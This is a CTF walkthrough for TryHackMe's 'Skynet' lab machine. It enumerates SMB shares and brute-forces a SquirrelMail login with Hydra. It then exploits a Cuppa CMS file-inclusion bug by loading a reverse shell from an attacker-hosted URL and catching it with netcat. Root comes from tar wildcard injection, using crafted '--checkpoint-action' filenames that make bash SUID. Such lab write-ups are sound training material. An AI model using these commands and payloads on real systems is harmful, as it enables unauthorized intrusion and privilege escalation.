






---

Name: Skynet
Difficulty: Easy
URL: https://tryhackme.com/room/skynet

---

<!-- TODO - decide if setup is needed -->

# Solution
We start by looking at the open ports on the machine with rustscan
```bash
rustscan -a skynet.thm --ulimit 5000 -- -sC -sV
```
```bash
PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKeTyrvAfbRB4onlz23fmgH5DPnSz07voOYaVMKPx5bT62zn7eZzecIVvfp5LBCetcOyiw2Yhocs0oO1/RZSqXlwTVzRNKzznG4WTPtkvD7ws/4tv2cAGy1lzRy9b+361HHIXT8GNteq2mU+boz3kdZiiZHIml4oSGhI+/+IuSMl5clB5/FzKJ+mfmu4MRS8iahHlTciFlCpmQvoQFTA5s2PyzDHM6XjDYH1N3Euhk4xz44Xpo1hUZnu+P975/GadIkhr/Y0N5Sev+Kgso241/v0GQ2lKrYz3RPgmNv93AIQ4t3i3P6qDnta/06bfYDSEEJXaON+A9SCpk2YSrj4A7
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0UWS0x1ZsOGo510tgfVbNVhdE5LkzA4SWDW/5UjDumVQ7zIyWdstNAm+lkpZ23Iz3t8joaLcfs8nYCpMGa/xk=
|   256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICHVctcvlD2YZ4mLdmUlSwY8Ro0hCDMKGqZ2+DuI0KFQ
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Skynet
110/tcp open  pop3        syn-ack Dovecot pop3d
|_pop3-capabilities: UIDL AUTH-RESP-CODE SASL PIPELINING CAPA TOP RESP-CODES
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack Dovecot imapd
|_imap-capabilities: capabilities ENABLE LOGIN-REFERRALS LITERAL+ have more ID Pre-login IDLE LOGINDISABLEDA0001 post-login SASL-IR IMAP4rev1 OK listed
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see SMB is running so we look further into it with smbmap
```bash
smbmap -H skynet.thm
```

```bash
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.8 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)

[+] IP: 10.112.188.255:445      Name: skynet.thm                Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections

```

We see a READ ONLY share and take a look at it. We find attention.txt and some logs
```bash
smbclient -N //skynet.thm/anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 18:04:00 2020
  ..                                  D        0  Tue Sep 17 10:20:17 2019
  attention.txt                       N      163  Wed Sep 18 06:04:59 2019
  logs                                D        0  Wed Sep 18 07:42:16 2019

                9204224 blocks of size 1024. 5831520 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 163 as attention.txt (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 07:42:16 2019
  ..                                  D        0  Thu Nov 26 18:04:00 2020
  log2.txt                            N        0  Wed Sep 18 07:42:13 2019
  log1.txt                            N      471  Wed Sep 18 07:41:59 2019
  log3.txt                            N        0  Wed Sep 18 07:42:16 2019

                9204224 blocks of size 1024. 5831516 blocks available
smb: \logs\> get log1.txt
getting file \logs\log1.txt of size 471 as log1.txt (3.5 KiloBytes/sec) (average 2.3 KiloBytes/sec)
smb: \logs\> get log2.txt
getting file \logs\log2.txt of size 0 as log2.txt (0.0 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \logs\> get log3.txt
getting file \logs\log3.txt of size 0 as log3.txt (0.0 KiloBytes/sec) (average 1.3 KiloBytes/sec)
```

Let's read those files (log2, and log3 are empty)
```bash
cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

cat log1.txt
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

Could be useful for bruteforcing SSH credentials, but first let's fire gobuster and take a look at the website
```bash
gobuster dir -u http://skynet.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x txt,php,html,bak,zip,log -k
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://skynet.thm/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              bak,zip,log,txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 523]
admin                (Status: 301) [Size: 308] [--> http://skynet.thm/admin/]
css                  (Status: 301) [Size: 306] [--> http://skynet.thm/css/]
js                   (Status: 301) [Size: 305] [--> http://skynet.thm/js/]
config               (Status: 301) [Size: 309] [--> http://skynet.thm/config/]
ai                   (Status: 301) [Size: 305] [--> http://skynet.thm/ai/]
squirrelmail         (Status: 301) [Size: 315] [--> http://skynet.thm/squirrelmail/]
server-status        (Status: 403) [Size: 275]
```

We find an instance of squirrelmail ( SquirrelMail version 1.4.23 [SVN] )



Let's brute force the password for miles
```bash
hydra -l milesdyson \
  -P log1.txt \
  skynet.thm \
  http-post-form \
  "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." \
  -f -V
```
```bash
[80][http-post-form] host: skynet.thm   login: milesdyson   password: cyborg007haloterminator
```

Now we are logged in



We find an email about smb password change
```txt


We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`

```

An encoded message
```txt
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```



And, lastly this
```txt
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```

Since we know his smb password we can connect to it and view his files
```bash
smbclient //skynet.thm/milesdyson -U milesdyson
Password for [SAMBA\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 12:05:47 2019
  ..                                  D        0  Wed Sep 18 06:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 12:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 12:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 12:05:14 2019
  notes                               D        0  Tue Sep 17 12:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 12:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 12:05:14 2019

                9204224 blocks of size 1024. 5635936 blocks available
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 12:18:40 2019
  ..                                  D        0  Tue Sep 17 12:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 12:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 12:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 12:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 12:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 12:01:29 2019
  important.txt                       N      117  Tue Sep 17 12:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 12:01:29 2019
  3.00 Artificial Intelligence.md      N       33  Tue Sep 17 12:01:29 2019
  2.01 Overview.md                    N     1165  Tue Sep 17 12:01:29 2019
  3.02 Planning.md                    N    71657  Tue Sep 17 12:01:29 2019
  1.04 Probability.md                 N    62712  Tue Sep 17 12:01:29 2019
  2.06 Natural Language Processing.md      N    82633  Tue Sep 17 12:01:29 2019
  2.00 Machine Learning.md            N       26  Tue Sep 17 12:01:29 2019
  1.03 Calculus.md                    N    40779  Tue Sep 17 12:01:29 2019
  3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 12:01:29 2019
  1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 12:01:29 2019
  1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 12:01:29 2019
  6.00 Appendices.md                  N       20  Tue Sep 17 12:01:29 2019
  1.01 Functions.md                   N     7627  Tue Sep 17 12:01:29 2019
  2.03 Neural Nets.md                 N   144726  Tue Sep 17 12:01:29 2019
  2.04 Model Selection.md             N    33383  Tue Sep 17 12:01:29 2019
  2.02 Supervised Learning.md         N    94287  Tue Sep 17 12:01:29 2019
  4.00 Simulation.md                  N       20  Tue Sep 17 12:01:29 2019
  3.05 In Practice.md                 N     1123  Tue Sep 17 12:01:29 2019
  1.07 Graphs.md                      N     5110  Tue Sep 17 12:01:29 2019
  2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 12:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 12:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 12:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 12:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 12:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 12:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 12:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 12:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 12:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 12:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 12:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 12:01:29 2019

                9204224 blocks of size 1024. 5635936 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \notes\>

```

We see a lot of files and pdfs, but the one that sparks interest is important.txt
```bash
cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

```

We take a look at /45kra24zxs28v3yd


Using gobuster again we find /administrator
```bash
gobuster dir -u http://skynet.thm/45kra24zxs28v3yd/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 10 -x txt,php,html,bak,zip,log -k
```
```bash
administrator        (Status: 301) [Size: 333] [--> http://skynet.thm/45kra24zxs28v3yd/administrator/]
```



Using searchsploit we find and exploit for it
```bash
searchsploit cuppa
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Rem | php/webapps/25971.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```
```bash
searchsploit -p 25971
  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /opt/exploitdb/exploits/php/webapps/25971.txt
    Codes: OSVDB-94101
 Verified: True
File Type: C++ source, ASCII text, with very long lines (876)
```

From which we learn we have LFI and RFI
```bash
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

Going to http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd displays the content of /etc/passwd so we know the exploit works



We generate out reverse shell with https://www.revshells.com/



Start a python server
```bash
python3 -m http.server
```

And a listener
```bash
nc -lvnp 4444
```

Lastly access it
```bash
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<YOUR_IP>:8000/shell.php
```

Now we have a shell and can read the user flag
```bash
$ whoami
www-data

$ cat user.txt
[REDACTED]
```

Get a better shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now lets look around

```bash
www-data@skynet:/home/milesdyson/backups$ ls -l
ls -l
total 4576
-rwxr-xr-x 1 root root      74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root root 4679680 Jul 14 07:10 backup.tgz

www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/home/milesdyson/backups$ 
```

We start pspy (https://github.com/DominicBreuker/pspy/) and find that someone is running that script periodically
```bash
2026/07/14 07:12:01 CMD: UID=0     PID=21186  | tar cf /home/milesdyson/backups/backup.tgz 45kra24zxs28v3yd admin ai config css image.png index.html js style.css 
2026/07/14 07:12:01 CMD: UID=0     PID=21185  | /bin/bash /home/milesdyson/backups/backup.sh 
2026/07/14 07:12:01 CMD: UID=0     PID=21184  | /bin/sh -c /home/milesdyson/backups/backup.sh 
```

Since the script uses the wildcard (*), we will trick tar into executing commands for us

Create the script
```bash
cd /var/www/html
echo 'chmod u+s /bin/bash' > shell.sh
chmod +x shell.sh
```

Now these special files
```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

Finnaly we become root
```bash
/bin/bash -p
```

## Why this works:
Normally, * expands to every file in the current directory. For example:
```bash
tar cf backup.tgz file1 file2 file3
```

However, the shell performs the wildcard expansion before tar starts

That means if we create files whose names start with --, they don't just look like filenames anymore. After the shell expands *, tar sees them as command-line options

After we created those files the command executed by root effectively becomes:
```bash
tar cf /home/milesdyson/backups/backup.tgz \
--checkpoint=1 \
--checkpoint-action=exec=sh\ shell.sh \
45kra24zxs28v3yd admin ai config css image.png index.html js shell.sh style.css
```

Notice that tar no longer treats those first two entries as files, it interprets them as options

Our shell.sh contains:
```bash
chmod u+s /bin/bash
```
which sets the SUID bit on /bin/bash.

After the SUID bit is set, running:
```bash
/bin/bash -p
```
preserves the effective UID of the file owner (root), giving us a root shell.

